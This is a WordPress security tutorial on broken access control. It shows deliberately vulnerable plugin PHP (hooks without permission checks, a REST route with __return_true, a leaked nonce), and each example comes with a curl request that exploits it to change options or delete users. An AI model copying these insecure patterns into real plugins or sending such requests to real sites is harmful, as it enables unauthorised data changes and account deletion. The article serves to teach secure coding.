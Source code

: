 ```yaml
---
title: Broken Access Control
head:
    - tag: title
      content: Learn about Broken Access Control
contributors:
    - rafiem
    - dhakalananda
---
```




## Introduction

This article covers cases of possible Broken Access Control on WordPress. This includes improper hook/function/code usage inside the plugin/theme, which can be used to access or update sensitive information.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/academy/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/academy/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/academy/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/academy/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.

<LinkCard
  title="Learn how to secure your code against Broken Access Control"
  href="/academy/wordpress/securing-code/broken-access-control/"
/>

## Insecure Direct Object Reference

Insecure Direct Object Reference (IDOR) is one of the vulnerabilities caused by broken access control. It involves changing any entity's ID to another that a user is not supposed to access.

For example, if a page views orders by order ID in the URL using the `?order_id=X` parameter, and the user can change the order ID to view another user's order details, it is an IDOR.

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code:

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        update_option("user_data", sanitize_text_field($_GET_["data"]));
    }
}
```

To exploit this, an unauthenticated user needs to visit the front page of a WordPress site and specify the parameter to trigger the `update_option` function, which in this case will modify sensitive information.

```bash
curl <WORDPRESS_BASE_URL>/?update=1&data=test
```

## `admin_init` hook

For more details about the `admin_init` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code:

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST["delete"])){
        delete_option("custom_admin_menu");
    }
}
```

To exploit this, the unauthenticated user needs to perform a POST request to the `admin-ajax.php` and `admin-post.php` endpoints, specifying the needed parameter to trigger the `delete_option` function to remove sensitive data.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat -d "delete=1"
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_update_post_data", "update_post_data_2");

function update_post_data_2(){
    if(isset($_POST["update"])){
        $post_id = get_post($_POST["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, any authenticated user (**Subscriber+** role) needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_post_meta` function to update arbitrary WP Post metadata.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data&update=1 -d "id=1&data=changed"
``` 

## [`wp_ajax_nopriv_{$action}`](https://developer.wordpress.org/reference/hooks/wp_ajax_nopriv_action/) hook

For more details on the `wp_ajax_nopriv_{$action}` hook, please refer to this [documentation](/academy/wordpress/wordpress-internals/hooks/#wp_ajax_nopriv_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_toggle_menu_bar", "toggle_menu_bar");

function toggle_menu_bar(){
    if ($_POST["toggle"] === "1"){
        update_option("custom_toggle", 1);
    }
    else{
        update_option("custom_toggle", 0);
    }
}
```

To exploit this, any unauthenticated user needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_option` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=toggle_menu_bar -d "toggle=1"
``` 

## `register_rest_route` function

For more details on the `register_rest_route` function, please refer to this [documentation](/academy/wordpress/wordpress-internals/functions/#register_rest_route-function).

Sometimes, developers don't implement a proper permission check on the custom REST API route and use the `__return_true` string as the permission callback. This makes the custom REST API route publicly accessible.

```php
add_action( 'rest_api_init', function () {
  register_rest_route( 'myplugin/v1', '/delete/author', array(
    'methods' => 'POST',
    'callback' => 'delete_author_user',
    'permission_callback' => '__return_true',
  ) );
} );

function delete_author_user($request){
    $params = $request->get_params();
    wp_delete_user(intval($params["user_id"]));
}
```

To exploit this, any unauthenticated user needs to perform a POST request to the `/wp-json/myplugin/v1/delete/author` endpoint specifying the needed parameter to trigger the `wp_delete_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/delete/author -d "user_id=1"
``` 

Other cases could exist where developers already specify a proper function on the `permission_callback` parameter; however, the permission check implemented inside the function itself is not proper for what process can be done from the REST API route `callback` function.

## Nonce leakage

In the case when an action is only protected by a nonce instead of a permission check, there is a chance that the nonce might be leaked to low-privileged users. It can lead to broken access control issues in such cases.

```php
add_action('wp_enqueue_scripts', function() {
    wp_register_script('insecure-demo', false);
    wp_enqueue_script('insecure-demo');
    wp_localize_script('insecure-demo', 'insecureDemo', [
        'ajax_url' => admin_url('admin-ajax.php'),
        'nonce'    => wp_create_nonce('delete_user_nonce'),
    ]);
});

add_action('wp_ajax_nopriv_delete_user', function() {
    $nonce   = $_POST['nonce'] ?? '';
    $user_id = $_POST['user_id'] ?? 0;

    if (!wp_verify_nonce($nonce, 'delete_user_nonce')) {
        wp_die('Invalid nonce');
    }

    if (wp_delete_user($user_id)) {
        echo "User $user_id deleted";
    } else {
        echo "Failed to delete user";
    }

    wp_die();
});
```

To exploit this, an unauthenticated user can grab the nonce from the WP site homepage source and perform a POST request to the `/admin-ajax.php` endpoint with the nonce parameter to trigger the `wp_delete_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=delete_user -d "nonce=nonce_from_page_source&user_id=1"
``` 
